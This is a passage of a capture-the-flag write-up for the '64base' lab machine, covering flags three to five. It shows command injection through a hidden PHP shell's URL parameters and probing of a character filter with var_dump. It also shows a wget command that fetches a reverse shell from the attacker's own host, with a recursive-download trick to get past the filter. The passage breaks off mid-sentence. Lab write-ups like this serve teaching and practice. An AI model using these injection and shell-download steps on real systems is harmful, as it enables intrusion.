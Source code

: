 {% img center /images/pentest/64base/burp.png 'burp' 'burp' %}

So we'll have to use Burp for the next part.

## Flag #3 - Burp'ing for the empire

I've put some dummy values in the login form and intercepted the requests with Burp..it's important to also capture the server response, because the flag is in the 302 Moved Temporarily response from the server: <code>flag3{NTNjcjN0NWgzNzcvSW1wZXJpYWwtQ2xhc3MvQm91bnR5SHVudGVyL2xvZ2luLnBocD9mPWV4ZWMmYz1pZAo=}</code>. And decoding it shows the way to the secret shell that was hinted at previously: <code>53cr3t5h377/Imperial-Class/BountyHunter/login.php?f=exec&c=id</code>

## Flag #4 - System, not exec

Going to http://192.168.145.138/Imperial-Class/BountyHunter/login.php?f=exec&c=id takes us to a page that only has the text "[64base Command Shell]" displayed on it. Trying different commands for the *c* parameter doesn't change anything, but we have the tip from before. So I switched to **?f=system&c=id** and got the flag and the command output:

``` 
flag4{NjRiYXNlOjY0YmFzZTVoMzc3Cg==}

Debian GNU/Linux 8 \n \l

Sat Oct 27 16:05:00 BST 2018
Linux 64base 3.16.0-4-586 #1 Debian 3.16.36-1+deb8u2 (2016-10-19) i686 GNU/Linux
          inet addr:192.168.145.138  Bcast:192.168.145.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fe0a:a6d1/64 Scope:Link

uid=1001(64base) gid=1001(64base) groups=1001(64base)
```

Decoding the flag gives another set of possible credentials: <code>64base:64base5h377</code>. Tried them on the SSH with no success.

## Flag #5 - When nothing else works, recurse!

Even though it looks like we have a shell, in reality, many commands don't work. At this point, I looked at a hint from other solutions to understand what is going on. It seems there is some filtering in place, and you can see what is being filtered by using PHP's **var_dump** function, which displays structured information (type and value) about variables. I tried downloading a reverse shell from my system with <code>?f=system&c=wget http://192.168.145.133:8001/shell.php</code>, but of course it didn't work. However, when I tried looking at how the command is constructed with <code>?f=var_dump&c=wget http://192.168.145.133:8001/shell.php</code>, I saw what was filtered out:

``` 
string(190) "echo '
flag4{NjRiYXNlOjY0YmFzZTVoMzc3Cg==}
';cat.real /etc/issue;date;uname -a;/sbin/ifconfig eth0|/usr/share/grep.real inet;echo
 sudo -u 64base wget http192.168.145.1338001shell.php"
```

The slash and colon characters are filtered out. I played with it and saw that other special characters are also filtered out, so I couldn't use command chaining to get rid of it. I could not point wget to my server that with the shell. But wget has the option of recursive downloading, with the *-r* switch. If I could serve the shell in the root of my web server, it should be recursively downloaded, since there would be no blacklisted characters in the command. So I used Python's SimpleHTTPServer to serve the shell on port 80 and tested the recursive download from my machine, and it created a directory corresponding with the one downloaded, with the shell inside:
